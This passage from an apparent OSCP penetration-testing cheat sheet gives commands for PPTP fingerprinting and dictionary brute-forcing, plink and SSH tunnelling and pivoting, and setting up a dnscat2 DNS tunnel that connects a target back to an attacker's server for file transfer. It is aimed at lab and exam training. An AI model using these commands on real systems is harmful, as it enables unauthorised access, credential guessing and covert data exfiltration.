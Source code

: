 -   PPTP Hacking

    -   Identifying PPTP, it listens on TCP: 1723
        NMAP PPTP Fingerprint:

        `nmap –Pn -sV -p 1723 TARGET(S)  `
        PPTP Dictionary Attack

        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

-   Port Forwarding/Redirection

-   PuTTY Link tunnel - SSH Tunneling

    -   Forward remote port to local address:

         `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

-   SSH Pivoting

    -   SSH pivoting from one network to another:

        `ssh -D <local host>:1010 -p 22 user@<remote host>`

-   DNS Tunneling

    -   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.

    -   Attacking Machine Installation:

        `apt-get update
        apt-get -y install ruby-dev git make g++
        gem install bundler
        git clone https://github.com/iagox86/dnscat2.git
        cd dnscat2/server
        bundle install`

    -   Run dnscat2:

        `ruby ./dnscat2.rb
        dnscat2> New session established: 1422
        dnscat2> session -i 1422`

    -   Target Machine:
        https://downloads.skullsecurity.org/dnscat2/
        https://github.com/lukebaggett/dnscat2-powershell/

        `dnscat --host <dnscat server ip>`

<span id="_ujpvtdpc9i67" class="anchor"><span id="_Toc480741824" class="anchor"></span></span>The Metasploit Framework
======================================================================================================================

-   See [*Metasploit Unleashed
    Course*](https://www.offensive-security.com/metasploit-unleashed/)
    in the Essentials

-   Search for exploits using Metasploit GitHub framework source code:
    [*https://github.com/rapid7/metasploit-framework*](https://github.com/rapid7/metasploit-framework)
    Translate them for use on OSCP LAB or EXAM.
